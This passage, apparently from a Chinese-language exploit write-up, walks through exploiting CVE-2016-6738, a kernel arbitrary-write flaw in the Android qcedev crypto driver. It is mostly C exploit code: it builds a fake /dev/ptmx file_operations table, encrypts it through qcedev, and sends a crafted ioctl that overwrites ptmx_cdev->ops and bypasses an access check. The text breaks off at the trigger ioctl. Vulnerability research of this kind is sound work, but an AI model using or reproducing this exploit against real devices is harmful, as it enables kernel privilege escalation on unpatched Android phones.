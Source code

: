 **CVE-2016-6738 漏洞利用**



CVE-2016-6738 是一个任意地址写任意值的漏洞，利用代码已经提交在[EXP-CVE-2016-6738](https://github.com/453483289/android_vuln_poc-exp/tree/master/EXP-CVE-2016-6738)

我们选择重定向 /dev/ptmx 设备的 file_operations, 先在用户态构造一个伪结构，如下

```
map = mmap(0x1000000, (size_t)0x10000, PROT_READ|PROT_WRITE, MAP_ANONYMOUS|MAP_PRIVATE, -1, (off_t)0);
        if(map == MAP_FAILED) `{`
                printf("[-] Failed to mmap landing (%d-%s)n", errno, strerror(errno));
                ret = -1;
                goto out;
        `}`
        //printf("[+] landing mmap'ed @ %pn", map);
        memset(map, 0x0, 0x10000);
        fake_ptmx_fops = map;
        printf("[+] fake_ptmx_fops = 0x%lxn",fake_ptmx_fops);
        *(unsigned long*)(fake_ptmx_fops + 1 * 8) = PTMX_LLSEEK;
        *(unsigned long*)(fake_ptmx_fops + 2 * 8) = PTMX_READ;
        *(unsigned long*)(fake_ptmx_fops + 3 * 8) = PTMX_WRITE;
        *(unsigned long*)(fake_ptmx_fops + 8 * 8) = PTMX_POLL;
        *(unsigned long*)(fake_ptmx_fops + 9 * 8) = PTMX_IOCTL;
        *(unsigned long*)(fake_ptmx_fops + 10 * 8) = COMPAT_PTMX_IOCTL;
        *(unsigned long*)(fake_ptmx_fops + 12 * 8) = PTMX_OPEN;
        *(unsigned long*)(fake_ptmx_fops + 14 * 8) = PTMX_RELEASE;
        *(unsigned long*)(fake_ptmx_fops + 17 * 8) = PTMX_FASYNC;
```

根据前面的分析，伪结构的值需要先做一次加密，再使用

```
unsigned long edata = 0;
        qcedev_encrypt(fd, fake_ptmx_fops, &amp;edata);
        trigger(fd, edata);
```

下面是核心的函数

```
static int trigger(int fd, unsigned long src)
`{`
        int cmd;
        int ret;
        int size;
        unsigned long dst;
        struct qcedev_cipher_op_req params;

        dst = PTMX_MISC + 8 * 9; // patch ptmx_cdev-&gt;ops
        size = sizeof(unsigned long);
        memset(&amp;params, 0, sizeof(params));
        cmd = QCEDEV_IOCTL_DEC_REQ;
        params.entries = 1;
        params.in_place_op = 1; // bypass access_ok check of creq-&gt;vbuf.dst[i].vaddr
        params.alg = QCEDEV_ALG_DES;
        params.mode = QCEDEV_DES_MODE_ECB;
        params.data_len = size;
        params.vbuf.src[0].len = size;
        params.vbuf.src[0].vaddr = &amp;src;
        params.vbuf.dst[0].len = size;
        params.vbuf.dst[0].vaddr = dst;
        memcpy(params.enckey,"test", 16);
        params.encklen = 16;

        printf("[+] overwrite ptmx_cdev opsn");
        ret = ioctl(fd, cmd, &amp;params); // trigger 
```